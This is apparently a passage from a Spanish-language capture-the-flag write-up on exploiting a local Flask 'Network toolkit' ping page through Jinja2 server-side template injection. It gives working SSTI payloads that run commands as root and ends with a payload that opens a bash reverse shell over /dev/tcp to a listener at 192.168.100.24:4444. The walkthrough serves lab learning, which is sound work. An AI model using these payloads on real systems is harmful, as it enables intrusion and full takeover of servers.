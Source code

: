 Ahora accedemos en la web, bajo direccion de **loopback** con el puerto que indicamos 
```bash
http://127.0.0.1:7092/
```

Tenemos una web que nos permite ejecutar ping, Ahora si no esta sanitizado podemos aprovecharnos para concatenar comandos
No logramos ejecutar el comando **ping**
Ahora revisando las tecnologias que corren detras de esta web tenemos que corre python por detras
```bash
whatweb http://127.0.0.1:7092/
http://127.0.0.1:7092/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.1 Python/3.12.3], IP[127.0.0.1], Python[3.12.3], Title[Network toolkit], Werkzeug[3.0.1]
```

Probando una inyeccion como esta no tuvimos exito
```bash
import os; os.system("whoami")
```

Investigando en internet tenemos lo siguiente:
```bash
**Werkzeug** es una **librería de Python** que proporciona herramientas para construir aplicaciones web. Es el **motor WSGI** (interfaz de servidor) que usa **Flask**, un popular framework web.
```

Ahora sabiendo que **flask**, Se puede realizar inyecciones aritmeticas, probraremos inyectar lo siguietne:
```bash
{{7*7}}
```

Si el servidor nos responde con un **49** ya tenemos asegurado, **RCE**
Aunque la web no devuelva lo siguiente:
```bash
 Error al ejecutar: /usr/bin/ping: {{7*7}}: Name or service not known
```

Desde el input tenemos reflejado un **49**, Asi que tenemos **RCE** garantizado, Nos aprovechamos de esto para, realizar la siguiente inyeccones con un payload de **hacktriks**
Si ejecutamos este payload tenemos garantizado el acceso como **root**
```python
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

Ya que el servicio esta corriendo como root
```bash
uid=0(root) gid=0(root) groups=0(root)
```

Nos ponemos en escucha:
```bash
nc -nlvp 4444
```

```bash
# Comando para escalar al usuario: ( root )
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "exec bash -i &>/dev/tcp/192.168.100.24/4444 <&1"').read() }}
```

---